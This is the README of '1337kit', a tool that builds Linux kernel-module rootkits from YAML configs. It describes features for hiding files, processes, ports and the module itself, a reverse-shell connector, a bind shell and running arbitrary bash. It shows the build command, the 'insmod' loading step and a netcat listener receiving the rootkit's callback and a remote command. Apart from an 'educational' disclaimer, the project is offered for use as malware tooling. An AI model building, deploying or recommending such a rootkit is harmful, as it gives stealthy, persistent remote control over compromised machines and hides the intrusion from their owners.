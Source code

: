 # 1337kit - LKM Rootkit Builder

```
 ████   ████████   ████████  ██████████ █████       ███   █████   
░░███  ███░░░░███ ███░░░░███░███░░░░███░░███       ░░░   ░░███    
 ░███ ░░░    ░███░░░    ░███░░░    ███  ░███ █████ ████  ███████  
 ░███    ██████░    ██████░       ███   ░███░░███ ░░███ ░░░███░   
 ░███   ░░░░░░███  ░░░░░░███     ███    ░██████░   ░███   ░███    
 ░███  ███   ░███ ███   ░███    ███     ░███░░███  ░███   ░███ ███
 █████░░████████ ░░████████    ███      ████ █████ █████  ░░█████ 
░░░░░  ░░░░░░░░   ░░░░░░░░    ░░░      ░░░░ ░░░░░ ░░░░░    ░░░░░  
LKM Rootkit Builder
```

## About project

1337kit is 64-bit LKM Rootkit builder based on yaml prescription

### DISCLAIMER: FOR EDUCATIONAL AND INFORMATIONAL PURPOSES ONLY

This project is for malware analytists and for creator of CTF or cyber security exercises, with this builder you can build your custom rootkit for your exercise

**I do not take any responsibility for usage of this project**

### Features

* RevShell based connector
* Hiding dents (files, files prefixes, process id)
* Hiding ports in TCP Connection
* Spawning scripts to user-space
* Hiding module from module list

## Usage

You have to create your yaml prescription for custom rootkit,
Example of full prescription (every option can be omitted):

```yaml
hideme: true
connector: 
    ip: "127.0.0.1"
    port: "8080"
hide_dent:
    - "91746"
    - "1337test_"
hide_port:
    - "8080"
    - "1337"
shells:
    - "sleep 1000"
```

After you create your yaml just run the builder.py

```sh
$ python3 builder.py --config testfiles/config.yml
```
And rootkit.ko will be created.

another way to execute your hiding or shell script is connector, if you enable your connector, rev-sell connection is created to your defined IP and Port, after this it will try open connection every x second. After connection is opened multiple commands can be send:

* HIDEME
* SHOWME
* HIDE_DENT
* SHOW_HIDDEN_DENT
* HIDE_PORT
* SHOW_HIDDEN_PORT
* BINDSHELL_CREATE
* RUN_CUSTOM_BASH

## Future Features

* TCP IPv6 hiding
* hiding connections based on IP
* builder name obfuscation (cuz now when you do strings you will see symbols like init_rootkit ect)

### Examples

```sh
$ python3 builder.py --config testfiles/config.yml
$ sudo insmod rootkit.ko
$ nc -lvnp 8080
 Listening on 0.0.0.0 8080
 Connection received on 127.0.0.1 39040
 RUN_CUSTOM_BASH sleep 1000
```

![example](images/example.jpeg)
